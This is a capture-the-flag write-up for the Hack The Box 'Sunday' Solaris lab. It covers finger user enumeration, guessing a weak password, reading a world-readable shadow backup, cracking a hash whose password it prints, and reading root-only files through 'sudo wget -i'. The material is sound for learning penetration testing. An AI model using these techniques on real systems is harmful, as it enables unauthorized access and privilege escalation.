

# Sunday - Easy

Target IP: **10.129.71.20**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.71.20 -v```

Output is unusual, we see port 79 open for a ```finger?``` service, port 111 open for RPC, and port 515 open for a ```printer``` service.

```
79/tcp  open  finger?
|_finger: No one logged on\x0D
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq, TerminalServerCookie: 
|_    Login Name TTY Idle When Where
111/tcp open  rpcbind 2-4 (RPC #100000)
515/tcp open  printer
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port79-TCP:V=7.95%I=7%D=9/28%Time=6ABAB3DF%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,12,"No\x20one\x20logged\x20on\r\n")%r(GetRequest,93,"Login\x20
SF:\x20\x20\x20\x20\x20\x20Name\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20TTY\x20\x20\x20\x20\x20\x20\x20\x20\x20Idle\x20\x20\x2
SF:0\x20When\x20\x20\x20\x20Where\r\n/\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\nGET\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\
SF:?\r\nHTTP/1\.0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:?\?\?\r\n")%r(Help,5D,"Login\x20\x20\x20\x20\x20\x20\x20Name\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20TTY\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20Idle\x20\x20\x20\x20When\x20\x20\x20\x20Where\r\nHELP\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\?\?\?\r\n")%r(HTTPOptions,93,"Login\x20\x20\x20\x20\x20\x20\x20Name\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20TTY\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20Idle\x20\x20\x20\x20When\x20\x20\x20\x20Where\
SF:r\n/\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\?\?\?\r\nHTTP/1\.0\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\?\?\?\r\nOPTIONS\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\?\?\?\r\n")%r(RTSPRequest,93,"Login\x20\x20
SF:\x20\x20\x20\x20\x20Name\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20TTY\x20\x20\x20\x20\x20\x20\x20\x20\x20Idle\x20\x20\x20\x2
SF:0When\x20\x20\x20\x20Where\r\n/\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\nOPTIONS\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\nRTSP/1\.0\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\n")%r(SS
SF:LSessionReq,5D,"Login\x20\x20\x20\x20\x20\x20\x20Name\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20TTY\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20Idle\x20\x20\x20\x20When\x20\x20\x20\x20Where\r\n\x16\x03\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\?\?\?\r\n")%r(TerminalServerCookie,5D,"Login\x20\x20\x20\x20\x20\
SF:x20\x20Name\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:TTY\x20\x20\x20\x20\x20\x20\x20\x20\x20Idle\x20\x20\x20\x20When\x20\x20
SF:\x20\x20Where\r\n\x03\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\n");
```

We get an authentication error when trying to enumerate port 111.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-sl14qsgznq]─[~]
└──╼ [★]$ rpcinfo -p 10.129.71.20
10.129.71.20: RPC: Authentication error
```

Port 79 is used by the Finger protocol, which is a legacy service for exchangeable human-readable user and login information.

Running an additional scan on it tells us that no one is logged on.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-sl14qsgznq]─[~]
└──╼ [★]$ sudo nmap --script finger -p79 10.129.71.20
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-28 14:43 EDT
Nmap scan report for 10.129.71.20
Host is up (0.0070s latency).

PORT   STATE SERVICE
79/tcp open  finger
|_finger: No one logged on\x0D

Nmap done: 1 IP address (1 host up) scanned in 0.25 seconds
```

We can also check specific users on the machine. We know ```root``` exists.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-sl14qsgznq]─[~]
└──╼ [★]$ nc -nv 10.129.71.20 79
Connection to 10.129.71.20 79 port [tcp/*] succeeded!
root
Login       Name               TTY         Idle    When    Where
root     Super-User            console      <Dec  7, 2023>
```

Otherwise, nothing really useful, and I don't want to brute force for users.

Let's move on to port 515. This port is used for the Line Printer Daemon protocol.

I found a [script](https://raw.githubusercontent.com/RUB-NDS/PRET/refs/heads/master/lpd/lpdtest.py) to test the behavior.

But the server rejects our requests.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-sl14qsgznq]─[~]
└──╼ [★]$ python lpdtest.py 10.129.71.20 --port 515 get /etc/passwd
[get] Trying to print file /etc/passwd
Negative acknowledgement
```

I guess we do need to brute force for users on Finger. Let's try [this](https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/refs/heads/master/finger-user-enum.pl) script.

There are some false positives, but I think there are two valid users, ```sammy``` and ```sunny```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-sl14qsgznq]─[~]
└──╼ [★]$ ./finger-user-enum.pl -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t 10.129.71.20
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/seclists/Usernames/Names/names.txt
Target count ............. 1
Username count ........... 10713
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started at Mon Sep 28 15:07:01 2026 #########
access@10.129.71.20: access No Access User                     < .  .  .  . >..nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >..
admin@10.129.71.20: Login       Name               TTY         Idle    When    Where..adm      Admin                              < .  .  .  . >..dladm    Datalink Admin                     < .  .  .  . >..netadm   Network Admin                      < .  .  .  . >..netcfg   Network Configuratio               < .  .  .  . >..dhcpserv DHCP Configuration A               < .  .  .  . >..ikeuser  IKE Admin                          < .  .  .  . >..lp       Line Printer Admin                 < .  .  .  . >..
anne marie@10.129.71.20: Login       Name               TTY         Idle    When    Where..anne                  ???..marie                 ???..
bin@10.129.71.20: bin             ???                         < .  .  .  . >..
dee dee@10.129.71.20: Login       Name               TTY         Idle    When    Where..dee                   ???..dee                   ???..
ike@10.129.71.20: ikeuser  IKE Admin                          < .  .  .  . >..
jo ann@10.129.71.20: Login       Name               TTY         Idle    When    Where..ann                   ???..jo                    ???..
la verne@10.129.71.20: Login       Name               TTY         Idle    When    Where..la                    ???..verne                 ???..
line@10.129.71.20: Login       Name               TTY         Idle    When    Where..lp       Line Printer Admin                 < .  .  .  . >..
message@10.129.71.20: Login       Name               TTY         Idle    When    Where..smmsp    SendMail Message Sub               < .  .  .  . >..
miof mela@10.129.71.20: Login       Name               TTY         Idle    When    Where..mela                  ???..miof                  ???..
root@10.129.71.20: root     Super-User            console      <Dec  7, 2023>..
sammy@10.129.71.20: sammy           ???            ssh          <May  6, 2025> 10.10.14.68         ..
sunny@10.129.71.20: sunny           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
sys@10.129.71.20: sys             ???                         < .  .  .  . >..
zsa zsa@10.129.71.20: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
######## Scan completed at Mon Sep 28 15:09:08 2026 #########
16 results.

10713 queries in 127 seconds (84.4 queries / sec)
```

I was at a roadblock here, I had a username but nothing to log in to. This revealed a severe gap in my methodology, I needed to scan for all ports always. Sometimes I skip scanning for all ports because the scan goes painfully slow, but that lead to my missing crucial details to progress. I can use ```--min-rate``` and ```--min-parallelism``` to speed up the scan.

Scanning again for all ports this time, I found two extra non-standard ports. Port 6787 was running Apache and ssh was on port 22022.

```
6787/tcp  open  http    Apache httpd
|_http-server-header: Apache
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: 400 Bad Request
22022/tcp open  ssh     OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:00:94:32:18:60:a4:93:3b:87:a4:b6:f8:02:68:0e (RSA)
|_  256 da:2a:6c:fa:6b:b1:ea:16:1d:a6:54:a1:0b:2b:ee:48 (ED25519)
```

Navigating to port 6787 led me to a log in page for the Solaris Dashboard. I knew our user was ```sunny```. Trying ```sunday```, the name of the lab, as the password, we are able to log in.



There wasn't anything particularly useful here, as there wasn't a way to get the exact version number.

We could try logging in with the same credentials through ssh.

It works.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-sl14qsgznq]─[~]
└──╼ [★]$ ssh -p 22022 sunny@10.129.71.20
The authenticity of host '[10.129.71.20]:22022 ([10.129.71.20]:22022)' can't be established.
ED25519 key fingerprint is SHA256:t3OPHhtGi4xT7FTt3pgi5hSIsfljwBsZAUOPVy8QyXc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.129.71.20]:22022' (ED25519) to the list of known hosts.
(sunny@10.129.71.20) Password: 
Last login: Mon Sep 28 19:27:51 2026
Oracle Solaris 11.4.42.111.0                  Assembled December 2021
sunny@sunday:~$ whoami
sunny
```

However, the user flag was in ```sammy```'s home directory, which means we need to get access to it.

```
sunny@sunday:/home$ ls -la
total 30
dr-xr-xr-x   4 root     root           4 Dec 19  2021 .
drwxr-xr-x  25 root     sys           28 Sep 28 16:51 ..
drwxr-xr-x   2 root     root           4 May  6  2025 sammy
drwxr-xr-x   2 sunny    staff          8 Apr 13  2022 sunny
sunny@sunday:/home$ cd sammy
sunny@sunday:/home/sammy$ ls -la
total 10
drwxr-xr-x   2 root     root           4 May  6  2025 .
dr-xr-xr-x   4 root     root           4 Dec 19  2021 ..
-rw-------   1 root     root         213 May  6  2025 .bash_history
-rw-r-----   1 sammy    root          33 Sep 28 16:52 user.txt
sunny@sunday:/home/sammy$ cat user.txt
cat: cannot open user.txt: Permission denied
```

```sunny``` has a binary she can run as ```root``` without a password.

```
sunny@sunday:~$ sudo -l
User sunny may run the following commands on sunday:
    (root) NOPASSWD: /root/troll
```

We can't navigate to the directory, read, or write, we can just execute it. It returns ```id``` ran as ```root```.

```
sunny@sunday:~$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

I guess the name is self-explanatory, we just got trolled.

Let's switch gears. Looking closer at the root directory, there is a non-standard directory ```/backup```. Inside, there is a copy of ```/etc/shadow``` that we can read.

```
sunny@sunday:/$ cd /backup
sunny@sunday:/backup$ ls
agent22.backup  shadow.backup
sunny@sunday:/backup$ ls -la
total 28
drwxr-xr-x   2 root     root           4 Dec 19  2021 .
drwxr-xr-x  25 root     sys           28 Sep 28 16:51 ..
-rw-r--r--   1 root     root         319 Dec 19  2021 agent22.backup
-rw-r--r--   1 root     root         319 Dec 19  2021 shadow.backup
sunny@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

We can take the hash for ```sammy``` and crack it on our attack box.

```$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!```

Let's log in as ```sammy```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-sl14qsgznq]─[~]
└──╼ [★]$ ssh -p 22022 sammy@10.129.71.20
(sammy@10.129.71.20) Password: 
Last login: Tue May  6 07:37:14 2025 from 10.10.14.68
Oracle Solaris 11.4.42.111.0                  Assembled December 2021
-bash-5.1$ whoami
sammy
```

We can proceed to get the user flag from here.

## Root Flag

```sammy``` can run ```/usr/bin/wget``` as ```root```.

```
-bash-5.1$ sudo -l
User sammy may run the following commands on sunday:
    (root) NOPASSWD: /usr/bin/wget
```

Looking on GTFOBins, this can be used to read any file. Let's read the root flag. We can do this because it reads the contents of a file that is inputted as a list of urls. In this case, it treats the contents of the root flag as urls and displays it to us.

```
-bash-5.1$ sudo wget -i /root/root.txt
--2026-09-28 19:52:21--  http://***************************/
Resolving *************************** (***************************)... failed: temporary name resolution failure.
wget: unable to resolve host address ‘***************************’
```

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
